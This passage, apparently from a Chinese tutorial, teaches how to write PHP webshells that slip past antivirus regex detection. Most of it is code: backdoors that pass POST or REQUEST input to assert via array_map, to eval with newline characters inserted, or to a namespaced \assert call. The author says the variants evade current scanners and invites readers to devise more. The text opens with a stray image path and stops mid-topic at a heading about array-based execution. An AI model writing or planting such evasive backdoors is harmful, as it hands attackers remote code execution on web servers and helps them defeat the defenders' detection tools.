 定义一个类

```
<?php
class loveme {
    var $a;
    var $b;
    function __construct($a,$b) {
        $this->a=$a;
        $this->b=$b;
    }
    function test() {
       array_map($this->a,$this->b);
    }
}
$p1=new loveme(assert,array($_POST['x']));
$p1->test();
?>
```

特殊字符干扰，要求是能干扰到杀软的正则判断，还要代码能执行, 网上广为流传的连接符

初代版本

```
<?php
$a = $_REQUEST['a'];
$b = null;
eval($b.$a);
?>
```

不过已经不能免杀了，利用适当的变形即可免杀 如

```
<?php
$a = $_POST['a'];
$b = "\n";
eval($b.=$a);
?>
```

其他方法大家尽情发挥如 "\r\n\t", 函数返回，类，等等

除了连接符号 还有个命名空间的东西 \ 具体大家可以看看 php 手册

```
<?php
function dog($a){
    \assert($a);
}
dog($_POST[x]);
?>
```

当然还有其他的符号熟读 PHP 手册就会有不一样的发现

把执行代码放入数组中执行绕过
